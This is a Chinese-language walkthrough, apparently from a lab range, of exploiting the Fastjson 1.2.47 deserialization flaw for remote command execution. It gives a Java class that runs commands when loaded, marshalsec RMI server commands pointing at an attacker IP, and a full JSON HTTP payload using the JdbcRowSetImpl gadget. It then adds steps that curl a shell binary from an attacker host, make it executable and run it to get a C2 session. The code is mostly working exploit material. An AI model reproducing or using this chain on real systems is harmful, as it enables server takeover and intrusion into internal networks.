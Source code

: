 # Fastjson 1.2.47 远程命令执行漏洞

## 漏洞复现

首先编译并上传命令执行代码

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后利用python起一个web服务

```
python3 -m http.server 80
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击ip/#TouchFile" 9999
```

向靶场服务器发送Payload：

```
POST / HTTP/1.1
Host: ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 258

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://攻击ip:9999/Exploit",
        "autoCommit":true
    }
}
```

![image-20220315143642923](/Users/james/Library/Application Support/typora-user-images/image-20220315143642923.png)

这个时候去docker容器里面查看生成的情况，

![image-20220315143552658](/Users/james/Library/Application Support/typora-user-images/image-20220315143552658.png)

## 上线viper

既然我们可以命令执行了，如果是在渗透测试的话，就可以点到为止了。但是如果我们是在攻防演练中我们是要拿shell，然后打内网的。这样首先学习写一个命令执行的demo

```
package test.day11;

import java.io.*;


import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Demo01exec {

    public static void main(String[] args) {
        String s = null;
        try {
            String[] commands = {"curl", "-O","http://ip/flag"};
            Process p = Runtime.getRuntime().exec(commands);
            BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
            BufferedReader stdError = new BufferedReader(new InputStreamReader(p.getErrorStream()));
            //从命令行打印出输出结果
            System.out.println("标准输出命令\n");
            while ((s = stdInput.readLine()) != null) {
                System.out.println(s);
            }

            System.out.println("标准错误的输出命令(如果存在):\n");
            while ((s = stdError.readLine()) != null) {
                System.out.println(s);
            }
            System.exit(0);
        } catch (IOException e) {
            System.out.println("异常发生: ");
            e.printStackTrace();
            System.exit(1);
        }
    }
}
```

![image-20220315144546257](/Users/james/Library/Application Support/typora-user-images/image-20220315144546257.png)

这样的demo实现后，直接就去实践了，还是编译之后上传

```
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

flag改成你的shell文件,这里要等一会

```
String[] commands = {"curl", "-O","http://ip/flag"};
```

给权限

```
String[] commands = {"chmod", "+x","flag"};
```

执行

```
String[] commands = {"./flag"};
```

成功上线

![image-20220315145532594](/Users/james/Library/Application Support/typora-user-images/image-20220315145532594.png)